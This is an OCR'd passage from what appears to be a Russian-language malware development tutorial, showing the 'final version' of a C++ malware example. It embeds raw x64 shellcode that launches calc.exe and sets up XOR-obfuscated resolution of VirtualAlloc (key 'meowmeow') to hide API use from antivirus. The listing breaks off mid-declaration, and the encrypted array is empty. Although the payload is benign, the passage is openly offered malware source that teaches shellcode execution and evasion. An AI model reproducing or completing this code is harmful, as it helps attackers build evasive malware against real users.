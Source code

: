 Итак, финальная версия нашего вредоносного кода:    

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

// XOR encrypted VirtualAlloc
unsigned char cVirtualAlloc[] = { };
unsigned int cVirtualAllocLen = sizeof(cVirtualAlloc);

// encrypt/decrypt key
char mySecretKey[] = "meowmeow";

// LPVOID VirtualAlloc(
//   LPVOID lpAddress,
//   SIZE_T dwSize,
//   DWORD  flAllocationType,
//   DWORD  flProtect
// );

LPVOID (WINAPI * pVirtualAlloc)(
    LPVOID lpAddress, 
    SIZE_T dwSize, 
    DWORD flAllocationType, 
    DWORD flProtect
```